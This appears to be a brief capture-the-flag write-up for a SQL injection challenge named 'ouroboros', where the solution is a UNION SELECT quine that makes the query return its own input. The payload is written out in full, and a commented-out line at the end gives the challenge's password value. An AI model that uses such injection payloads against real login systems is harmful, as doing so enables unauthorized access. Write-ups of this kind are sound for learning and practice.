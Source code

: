 ```yaml
---
layout: default
title: ouroboros
---
```


This is the ouroboros, it can be generated using this source code:
```python
{% include_relative scripts/ouroboros.py %}
```

This is the input we gives, `$$` will contain all the quine:
```sql
' UNION Select $$ -- -
```

```sql
' UNION Select REPLACE(REPLACE('" UNION Select REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") -- -',CHAR(34),CHAR(39)),CHAR(36),'" UNION Select REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") -- -') -- -
```

![FINAL](./images/ouroboros_FINAL.png)

<!-- **Password:** ***`admin_secure_email@rubiya.kr`***  -->
